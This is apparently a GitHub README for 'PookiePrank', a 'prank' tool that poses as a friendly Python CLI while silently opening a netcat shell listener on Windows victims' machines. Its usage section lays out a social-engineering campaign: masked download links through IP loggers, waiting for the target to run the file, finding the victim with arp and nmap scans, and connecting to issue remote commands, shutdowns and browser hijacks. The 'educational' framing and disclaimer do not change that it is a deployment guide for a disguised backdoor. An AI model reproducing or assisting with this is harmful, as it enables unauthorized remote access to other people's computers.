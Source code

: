 # PookiePrank: A Cute but Terrifying Cybersecurity Awareness Tool 💀🎀


PLEASE READ THE FULL DOCUMENTATION FOR THE BETTER UNDERSTANDING OF THE PROJECT.
---

## Table of Contents
- [What Is This?](#what-is-this)
- [Features](#features)
- [Why?](#why)
- [Usage](#usage)
- [Responsible Pranking Guidelines](#responsible-pranking-guidelines)
- [Legal Disclaimer](#legal-disclaimer)
- [Future Plans](#future-plans)

## What Is This?

**PookiePrank** is a lightweight "educational" program designed to demonstrate the importance of digital awareness through *strategic chaos*.  
It's a prank tool wrapped in charm — **cute on the outside, spooky on the inside**.

- Uses `netcat` for remote shell access (with full user control)
- Disguised behind a friendly-looking Python CLI
- An educational project that puts a Windows OS to vulnerability (and attacks eventually if not taken care of).
- Perfect for ethical demos, cybersecurity training, and… *light mischief*.

---

## Features

- **Silent Netcat Backdoor:** Triggers a reverse shell silently via batch file.
- **User Distraction UI:** Friendly messages and fake interactions to lower suspicion.
- **Remote Payload Execution:** Once connected, send commands in real-time.
- **Prank Arsenal:** Shutdowns, message popups, browser hijacks, and more.
- **Educational Angle:** Reinforces the dangers of blind trust in random executables.

---

## Why?

Because **security through trauma** works.  
This tool is designed to:

- Raise awareness of how easily social engineering works.
- Show how reverse shells operate.
- Make friends laugh *and* cry.
- Be a conversation starter in any cybersecurity interview.

---

## Usage

1. Host the executable and `netcat` folder.
2. Send the masked download link using a shortened IP logger service.
3. Wait for the target to run the file.
4. Connect to the shell:
- **On target machine (Runs automatically with python script)**.
   ```bash
   nc64 -lvp 4444
   ```
   
- **Attacker's Machine**.
  - **For Linux**
    ```bash
    nc <ip_address_of_the_target_machine> 4444
    ```
  
  - **For Windows**
    ```bash
    nc64 <ip_address_of_the_target_machine> 4444
    ```
    
   - Windows users can download `netcat` tool from [this repository](https://github.com/int0x33/nc.exe/)
   - In Linux, the netcat comes preinstalled.

   NOTE:
   
   - You will need to know the target ip address beforehand. You can either use IP Loggers or do an `arp` scan over the local network.
   
   - If you are on a virtual machine, perform an arp scan on your host machine.
   
   - **For Windows**
     ```bash
     arp -a
     ```
     
   - **For Linux**
     ```bash
     sudo arp-scan --localnet
     ```
     
   This will list all the IP addresses in a network and we have to find our target from this which can simply be done by an nmap scan
   
   ```bash
   nmap -p 4444 <ip_address>
   ```

  If port 4444 is open on any IP address, it may be our target machine.

  Try connecting using the Netcat command — if it’s successful, you're in.


6. Enjoy responsibly (or face karmic doom).
  ---




---

## Responsible Pranking Guidelines

1. No persistence (no startup or registry hacks).

2. No firewall tampering.

3. No data theft or spying.

4. Always reveal the prank eventually.

5. Use only on friends who won't yeet you into oblivion.



---

## Legal Disclaimer

**This project is for educational and ethical use only.
The creator takes no responsibility for misuse or unforeseen Rickroll (or any) damage caused by the same.**


---

## Future Plans

1. Add GUI launcher with meme themes

2. Auto-cancel prank if user types a secret code

3. PookieSec Dashboard™ for multi-prank coordination

4. Add dancing ASCII Rick in the terminal



## One Last Thing...

> **IMPORTANT:** For this prank to work, **you and your target must be on the same network** (e.g., college Wi-Fi, LAN party, cursed hostel internet).  
> Netcat operates over **local IP addresses** unless you're routing through public ports with port forwarding — which we’re *not doing here* (because jail is not part of the prank).

So yeah — **same Wi-Fi = RickRoll access granted**.

Stay stealthy, stay sassy.

— *PookieSec Ops Out.*
